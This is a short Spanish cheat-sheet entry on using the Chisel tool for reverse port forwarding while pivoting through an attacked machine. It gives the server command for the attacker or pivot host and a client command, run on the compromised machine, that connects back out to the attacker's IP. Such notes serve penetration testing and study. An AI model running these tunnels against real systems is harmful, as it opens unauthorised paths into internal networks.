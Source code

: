 # Info

Chisel usa un criterio cliente servidor. El **server** es la máquina que recibirá el forwardeo de puertos, el **client** es quien hará el forwardeo.
Esto quiere decir que si quisieramos forwardear un puerto desde una máquina que estamos atacando, el cliente irá en ella y el server en la máquina atacante o pivot.


# Server
Debemos configurarlo como server, que espere una conexión reversa y el puerto por el cual va a recibir los datos

    chisel server --reverse -p 1234

# Client
comando explicado

    chisel client <ip_server>:<puerto> R:<puerto_que_se_abrirá_en_la_máquina_atacante>:<ip(localhost o ip de otra máquina a la que llegar>:<puerto_a_alcanzar>

Ejemplo:

    chisel client 192.168.0.3:1234 R:3000:127.0.0.1:8080
